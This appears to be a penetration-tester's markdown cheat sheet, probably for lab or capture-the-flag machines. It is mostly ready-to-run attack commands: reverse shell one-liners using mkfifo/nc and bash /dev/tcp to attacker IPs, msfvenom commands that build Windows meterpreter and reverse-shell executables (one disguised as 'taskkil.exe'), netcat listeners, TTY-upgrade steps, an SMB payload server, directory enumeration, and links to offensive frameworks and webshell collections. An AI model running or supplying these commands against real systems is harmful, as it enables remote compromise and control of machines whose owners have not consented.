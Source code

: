 # search for rwx folders
find /path/to/file -user user1 -perm -u+rwx

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
tcpdump -i tun0 icmp
python -m SimpleHTTPServer 80
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=51251 -f exe -o taskkil.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.73 LPORT=51251 -f exe -o writeup.exe
impacket-smbserver files `pwd`
rlwrap nc -lvnp 51251
bash -c "bash -i >& /dev/tcp/10.10.14.73/51251 0>&1"

#monitor traffic to and from single host
iptables -I INPUT 1 -s 10.11.1.227 -j ACCEPT
iptables -I OUTPUT 1 -d 10.11.1.227 -j ACCEPT
# list consumption
iptables -vn -L
# Clear consumption
iptables -Z
```


# Web
#### dir enum
```gobuster dir -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

#### LFI
https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/


# USEFULL FRAMEWORKS
## GIT
```
nishang --> https://github.com/samratashok/nishang.git
JAWS  --> enumeration https://github.com/411Hall/JAWS.git
impacket --> https://github.com/SecureAuthCorp/impacket.git
webshells --> https://github.com/BlackArch/webshells.git
sherlock --> https://github.com/rasta-mouse/Sherlock
empire --> https://github.com/EmpireProject/Empire.git
unicorn --> https://github.com/trustedsec/unicorn.git
powersploit --> https://github.com/PowerShellMafia/PowerSploit.git
powershell-suite --> https://github.com/FuzzySecurity/PowerShell-Suite